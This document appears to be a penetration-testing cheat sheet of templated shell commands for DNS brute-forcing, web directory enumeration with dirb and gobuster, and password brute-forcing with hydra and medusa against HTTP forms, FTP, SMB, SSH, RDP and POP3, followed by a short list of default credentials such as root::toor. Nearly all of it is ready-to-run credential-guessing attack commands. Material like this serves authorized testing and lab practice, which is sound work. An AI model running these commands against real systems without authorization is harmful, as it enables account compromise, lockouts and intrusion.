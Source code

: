 https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force

### Domain Bruteforce

```bash
dnsrecon -d ${box_host} -D WORDLIST -t brt | tee ${loc}/2-enum/dns/dnsrecon_brute.md
```

### Directory Brute Forcing

**HTTP**

```bash
dirb ${ipurl}:${web1} -o ${loc}/2-enum/web/dirb_ip.md
```

```bash
dirb ${ipurl}:${web1} -X .txt,.sh,.php,.pl,.py,.xml,.bak -o ${loc}/2-enum/web/dirb_ip_ext.md

```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -o ${loc}/2-enum/web/gob_dir.md
```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -x log,txt,php,xml,csv,dat,pdf,doc,docx,ppt,pptx,xlr,xls,xlsx,db,dbf,mdb,pdb,sql,apk,jar,exe,7z,rar,tar.gz,zip,c,cpp,cs,h,sh,vb,vbs,pl,lua,java,py,bak,tmp -o ${loc}/2-enum/web/gob_files.md
```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -x log,txt,pdf,xml,csv,bak,php,pl -o ${loc}/2-enum/web/gob_files_priority.md

```**HTTPS**

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -o ${loc}/2-enum/web/gob_dir_https.md
```

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -x log,txt,php,xml,csv,dat,pdf,doc,docx,ppt,pptx,xlr,xls,xlsx,db,dbf,mdb,pdb,sql,apk,jar,exe,7z,rar,tar.gz,zip,c,cpp,cs,h,sh,vb,vbs,pl,lua,java,py,bak,tmp -o ${loc}/2-enum/web/gob_files_https.md
```

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -x log,txt,pdf,xml,csv,bak,php,pl -o ${loc}/2-enum/web/gob_files_priority_https.md
```

### HTTP Form Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http.md {http_scheme}-get ${box_ip}/path/to/auth/area
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/http/medusa_http.md -h ${box_ip} -m DIR:/path/to/auth/area
```

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http_host.md http-post-form ${box_ip} "/path/to/form:login_method:invalid-login-prompt"
```

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http_host.md https-post-form ${box_ip} "/path/to/form:login_method:invalid-login-prompt"
```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/http/medusa_http_host.md -h ${box_ip} -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

```

### FTP Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/ftp/hydra_ftp.md ftp://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/ftp/medusa_ftp.md -M ftp -h ${box_ip}

```### SMB Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/smb/hydra_smb.md smb://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/smb/medusa_smb.md -M smb -h ${box_ip}

```

### SSH Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/ssh/hydra_ssh.md ssh://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/ssh/medusa_ssh.md -M ssh -h ${box_ip}

```

### RDP Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/rdp/hydra_rdp.md rdp://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/rdp/medusa_rdp.md -M rdp -h ${box_ip}

```


### POP3

admin::admin
root::root
root::toor

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f ${box_ip} pop3


hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 995 -f ${box_ip} pop3


hydra -L ${user_list} -P ${pass_list} -f ${box_ip} pop3


hydra -L ${user_list} -P ${pass_list} -s 995 -f ${box_ip} pop3
```